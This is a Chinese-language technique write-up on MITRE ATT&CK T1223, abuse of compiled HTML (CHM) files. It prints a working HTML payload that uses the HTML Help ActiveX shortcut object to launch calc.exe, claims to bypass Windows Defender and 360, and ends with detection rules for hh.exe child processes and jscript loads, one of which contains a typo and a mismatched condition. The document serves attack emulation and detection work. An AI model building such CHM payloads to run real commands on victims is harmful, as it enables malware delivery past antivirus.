






# T1223-Compiled HTML File

CHM文件是各种内容的压缩编译，例如HTML文档，图像和脚本/ Web相关的编程语言，如VBA，JScript，Java和ActiveX。内容使用HTML Help executable program（hh.exe）加载的Internet Explorer浏览器基础组件显示。

攻击者可能滥用此技术来隐藏恶意代码。把嵌入payload的自定义CHM文件可以传送给受害者，然后由[用户执行](https://attack.mitre.org/techniques/T1204)触发。CHM执行还可以绕过旧版和/或未修补系统上的应用程序白名单，这些系统没有监控通过hh.exe执行二进制文件。

## 命令执行

### 技术复现

新建一个HTML文件并填入一下内容，使用Easy CHM工具编译成CHM文件



```
<!DOCTYPE html><html><head><title>CHM CODE EXEC</title></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command"value="ShortCut">
<PARAM name="Button"value="Bitmap::shortcut">
<PARAM name="Item1"value=',calc.exe'>
<PARAM name="Item2"value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

### 结果验证

绕过windows defender执行命令



360静态查杀结果


360动态防御被绕过




## 尝试使用CHM执行远控

尝试通过cmd调用powershell、通过regsvr32执行远程代码、通过hh释放本地文件加载均被拦截

### 结果验证




## 威胁取证

虽然防护软件会拦截一些命令的执行，但是在执行calc的时候并没有进行拦截操作，猜测是使用白名单限制，此种方法存在被白名单绕过的风险，在不变更攻击原理的情况下不影响以下规则的检测效果

**进程特征：**（级别：高）

```
# hh.exe作为父进程去创建其他进程，是一种可疑行为
ParentImage contians 'regsvr32.exe'
```



**加载项特征：**（级别：高）

```
# 在执行payload创建COM对象时会使用Jscript脚本，这样系统就会调用脚本程序
eventid = 7 AND ImageLoaded contains 'jscript'
```

